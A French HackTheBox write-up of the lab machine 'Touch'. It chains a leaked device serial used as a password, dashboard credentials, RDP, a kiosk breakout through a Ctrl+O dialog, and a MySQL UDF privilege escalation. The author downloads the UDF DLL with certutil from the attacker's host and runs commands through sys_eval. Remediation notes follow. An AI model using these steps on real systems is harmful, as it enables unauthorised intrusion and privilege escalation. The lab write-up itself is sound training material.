









# Touch — HackTheBox

| | |
| --- | --- |
| **Plateforme** | HackTheBox |
| **OS** | Windows 11 / Server 2025 — Build 26100 (`KIOSK-042`) |
| **Difficulté** | 🟡 Medium |
| **Date** | 2026-10-27 → 2026-10-30 |
| **Vecteur** | API leak (serial = mot de passe) → login web Nexion → creds `KioskUser` → RDP → **évasion du kiosque** (Ctrl+O → cmd.exe) → MySQL `root` (FILE priv) → **UDF `sys_eval`** → exécution en tant que service MySQL → root.txt |
| **CVE** | — (enchaînement de mauvaises configs) |
| **Tags** | web · api-leak · kiosk-breakout · rdp · mysql · udf · privesc · password-reuse |

> ⚠️ L'IP change à chaque reset (vue ici : `10.129.134.245`, `.137.189`, `.137.63`, `.138.50`). Mon IP VPN (`tun0`) = `10.10.15.178`.

---

## TL;DR

**Recon → `/api/status` lâche le serial en clair, et l'indice dit « le mot de passe par défaut = le serial » → login web Nexion. Le dashboard affiche `KioskUser : K!0sk2026#` → RDP, mais on tombe dans un kiosque verrouillé « HTB Airways ». On s'en échappe via une boîte de dialogue `Ctrl+O` (déclenchée par une erreur de scan) → on lance `cmd.exe`. Énumération → MySQL local (3306) joignable en `root`, qui possède le privilège `FILE`. On charge une UDF (`lib_mysqludf_sys`) dans le `plugin_dir` → `sys_eval()` exécute des commandes avec les droits du service MySQL (élevés) → lecture directe de root.txt.**

---

## 1. Reconnaissance

> 💡 Indice de départ (contexte HTB) : *« vous avez découvert un nom ainsi qu'un code de confirmation de réservation »* → **Jenny Crawford / KS7X2M** (resservira pour débloquer le kiosque).

```bash
┌──(kali㉿kali)-[~/nmap/Touch]
└─$ nmap -sC -sV -p- 10.129.134.245
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0        # WinRM
8443/tcp open  http          Microsoft HTTPAPI httpd 2.0
| http-title: Nexion DeviceHub - Login
|_Requested resource was /login
|_http-cors: GET POST PUT OPTIONS
Service Info: OS: Windows
```

| Port | Service | Piste |
| --- | --- | --- |
| 135 | msrpc | — |
| 3389 | RDP | accès graphique une fois des creds obtenus |
| 5985 | WinRM | tester les creds en premier (`nxc winrm`) |
| 8443 | HTTP — **Nexion DeviceHub** | surface applicative = point d'entrée |

---

## 2. Accès initial (foothold)

### 2.1 Fuite du serial → mot de passe du login
Une requête `POST /login` (vue dans Burp) et surtout l'endpoint **`/api/status`** renvoient les infos de l'appareil **en clair** :

```json
{"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2","status":"online","uptime":56271}
```

> 🎯 L'indice : *« the default password is the device serial number »* → **serial = mot de passe**.

```bash
┌──(kali㉿kali)-[~/nmap/Touch]
└─$ curl -sk -X POST http://10.129.137.189:8443/login \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'password=NX-DH-2024-B7042' -i
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: nxsession=7f2e8b33c3e749cc9cdf3d01d98c61cf; Path=/
```

→ on rejoue le cookie `nxsession` dans Burp → accès au **dashboard**.

### 2.2 Le dashboard lâche des identifiants Windows


| Champ | Valeur |
| --- | --- |
| Serial | NX-SR-2024-0042 |
| Firmware | 4.2.1 |
| **Username** | **KioskUser** |
| **Password** | **K!0sk2026#** |

> Les autres endpoints API testés (`scanner`, `printer`, `logs`, `settings`, `device`, `users`, `config`, `credentials`) renvoient vide — la fuite utile était dans le dashboard.

### 2.3 Test des creds → RDP (WinRM refusé)
```bash
└─$ nxc winrm 10.129.137.63 -u KioskUser -p 'K!0sk2026#'
WINRM  KIOSK-042  5985  [-] KIOSK-042\KioskUser:K!0sk2026#   # refusé

└─$ xfreerdp /u:KioskUser /p:'K!0sk2026#' /v:10.129.138.50 /cert:ignore
```
→ RDP OK, mais on arrive dans un **kiosque verrouillé** (appli plein écran « HTB Airways », clavier/souris bridés).

---

## 3. Évasion du kiosque (kiosk breakout)



La séquence qui a marché :
1. Dans l'appli kiosque, utiliser la **réservation Jenny Crawford / KS7X2M** pour accéder à la fonction **scan**.
2. **Désactiver le scan côté web** → le scan suivant renvoie une **erreur** qui ouvre une fenêtre système.
3. Depuis cette fenêtre : **`Ctrl + O`** → boîte de dialogue « Ouvrir ».
4. Naviguer vers `C:\Windows\System32`, chercher **`cmd.exe`**, clic droit → **Ouvrir** → **invite de commandes** hors du kiosque. 🎉



> ⚠️ **Piège clavier** : la session RDP démarre en **QWERTY**. Une fois dans `cmd.exe`, repasser en AZERTY :
> ```cmd
> powershell -c "Set-WinUserLanguageList -LanguageList fr-FR,en-US -Force"
> ```
> (côté FreeRDP 3.x, on peut aussi forcer la disposition au lancement : `/kbd:layout:0x0000040C`.)

**Pourquoi ça marche :** un kiosque n'est qu'une appli au-dessus d'un Windows complet. Toute boîte de dialogue « Ouvrir / Enregistrer / Imprimer » est une **fenêtre de l'explorateur** → `Ctrl+O`, barre d'adresse, clic droit « Ouvrir » sont autant d'évasions. Le point de départ ici : **forcer une erreur** (scan désactivé) pour faire surgir cette fenêtre.

---

## 4. Énumération post-accès

```cmd
netstat -ano           # -> 3306 en écoute : MySQL local
```


Dans le dossier applicatif, fichier **`index.ts`** (code de l'appli) avec des identifiants de base :


```
kiosk_app : K!0sk_R3plica#DB
```
→ cette base ne contient rien d'exploitable, **mais** elle révèle l'existence d'**autres bases** sur l'instance.

Fichier **`.bat`** trouvé → contient un accès **`root` MySQL** :


```
root : HTB@irw4ys_DB!2026
```

---

## 5. Élévation de privilèges — UDF MySQL (`lib_mysqludf_sys`)

**Idée :** MySQL tourne en compte privilégié. Si `root` a le privilège **`FILE`** et un `plugin_dir` **inscriptible**, on y dépose une **UDF** qui ajoute la fonction `sys_eval()` → **exécution de commandes avec les droits du service MySQL**.

### 5.1 Pré-requis à vérifier
```sql
SELECT user();                         -- root@localhost
SHOW GRANTS;                           -- root a FILE_priv
SHOW VARIABLES LIKE 'plugin_dir';      -- où déposer la DLL
SHOW VARIABLES LIKE 'secure_file_priv';-- doit être vide (écriture libre)
```
Vérification des droits d'écriture sur le plugin_dir :
```cmd
icacls.exe C:\MYSQL\lib\plugin
```


### 5.2 Récupérer la DLL (fournie par Metasploit)
```bash
┌──(kali㉿kali)-[/usr/…/metasploit-framework/data/exploits/mysql]
└─$ ls
lib_mysqludf_sys_32.dll  lib_mysqludf_sys_64.dll
lib_mysqludf_sys_32.so   lib_mysqludf_sys_64.so

# Servir le fichier (VRAI serveur HTTP, pas nc) :
└─$ python3 -m http.server 5555
```
```cmd
REM box (Windows x64) :
certutil.exe -urlcache -split -f http://10.10.15.178:5555/lib_mysqludf_sys_64.dll C:\Users\KioskUser\Downloads\lib_mysqludf_sys_64.dll
```
> ⚠️ **Piège transfert** : `certutil` télécharge en HTTP → il faut un **serveur** en face (`python3 -m http.server`). Un `nc -lvnp` accepte la connexion mais **ne renvoie rien** → `ERROR_WINHTTP_TIMEOUT`. Règle : `http.server` = *télécharger depuis Kali* ; `nc -lvnp` = *recevoir sur Kali*.

### 5.3 Charger la DLL dans le plugin_dir, créer la fonction, exécuter

```sql
-- écrire la DLL dans le plugin_dir depuis MySQL :
SELECT LOAD_FILE('C:/Users/KioskUser/Downloads/lib_mysqludf_sys_64.dll')
INTO DUMPFILE 'C:/MYSQL/lib/plugin/lib_mysqludf_sys_64.dll';

-- déclarer la fonction :
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';

-- exécuter :
SELECT sys_eval('whoami');
```

> ⚠️ **Piège rendu** : la sortie de `sys_eval()` revient **en hexadécimal** → décoder (CyberChef « From Hex », ou `CONVERT(... USING utf8)` / `UNHEX()`).

Lecture directe du flag grâce aux droits du service MySQL :
```sql
SELECT sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt');
```


**Résultat :** exécution de commandes en tant que **service MySQL** (droits élevés) → lecture de `root.txt`.

**Flag :** `<non publié — règle HTB>`

> **Pourquoi ça marche (à savoir expliquer à l'oral) :**
> Une UDF est une bibliothèque native que MySQL charge **dans son propre process**. Avec le privilège `FILE`, `root` peut écrire un fichier arbitraire (ici la DLL) **dans le `plugin_dir`** via `INTO DUMPFILE`. `CREATE FUNCTION ... SONAME` mappe `sys_eval` sur cette lib → chaque appel SQL s'exécute avec les **droits du compte de service MySQL**. Si ce service tourne en `SYSTEM`/admin, on a un RCE privilégié « gratuit ».

---

## 6. Remédiation

- **API** : ne jamais exposer serial/firmware/identifiants en clair (`/api/status`, dashboard) ; pas de secret = mot de passe par défaut.
- **Kiosque** : désactiver `Ctrl+O` et les boîtes de dialogue fichier, restreindre l'explorateur (AppLocker / Shell restreint / Assigned Access durci), interdire le lancement de `cmd.exe`/`powershell.exe`.
- **Secrets** : pas de creds dans le code applicatif (`index.ts`) ni dans des `.bat` ; coffre + comptes distincts par usage.
- **MySQL** : faire tourner le service en compte **à moindre privilège** (pas SYSTEM), retirer le privilège **`FILE`** à `root`, définir `secure_file_priv` sur un dossier non-plugin, `plugin_dir` **non inscriptible**.
- **Réseau** : ne pas exposer WinRM/RDP sans MFA ; pas de réutilisation de mots de passe.

---

## 7. Leçons

- **Fuite d'info ≠ exploitation** : `/api/status` ne donne « que » de la lecture, mais c'est le pivot qui débloque tout le reste.
- **Kiosk breakout** : toute boîte de dialogue (`Ctrl+O`, Imprimer, Enregistrer sous) = fenêtre explorateur = évasion. L'astuce : **provoquer une erreur** pour la faire apparaître.
- **UDF MySQL** = privesc Windows/Linux dès que `root` a `FILE` + `plugin_dir` écrivable + service privilégié. À ajouter à la cheatsheet privesc.
- **Transfert de fichiers** : bien distinguer *servir* (`http.server`) de *recevoir* (`nc -lvnp`) — j'ai perdu du temps sur ce `TIMEOUT`.
- **Sortie hex** d'une UDF : prévoir le décodage.

---

## Références

- `lib_mysqludf_sys` (Metasploit : `data/exploits/mysql/`)
- Fiches outil liées : [mysql-udf](../outils/mysql-udf.md) · [file-transfer](../outils/file-transfer.md) · [kiosk-breakout](../outils/kiosk-breakout.md) · [commandes-utiles](../outils/commandes-utiles.md)
